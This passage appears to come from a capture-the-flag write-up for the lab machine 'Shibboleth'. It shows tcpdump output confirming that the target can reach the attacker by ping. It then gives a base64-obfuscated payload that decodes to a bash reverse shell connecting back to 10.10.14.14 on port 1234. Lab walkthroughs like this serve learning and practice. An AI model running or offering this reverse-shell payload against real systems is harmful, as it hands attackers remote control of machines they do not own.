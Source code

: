 ```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
08:44:18.184098 IP 10.10.11.124 > 10.10.14.14: ICMP echo request, id 1, seq 1, length 64
08:44:18.184132 IP 10.10.14.14 > 10.10.11.124: ICMP echo reply, id 1, seq 1, length 64
```

![image-20240204040339209](./Shibboleth.assets/image-20240204040339209.png)

**Exploit**:

1. base64 encode the payload to avoid some special char (like +,-,= e.t.) => **payload**:`echo YmFzaCAtYyAiYmFzaCAtaSAgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNC8xMjM0ICAwPiYxIiAK | base64 -d | bash`
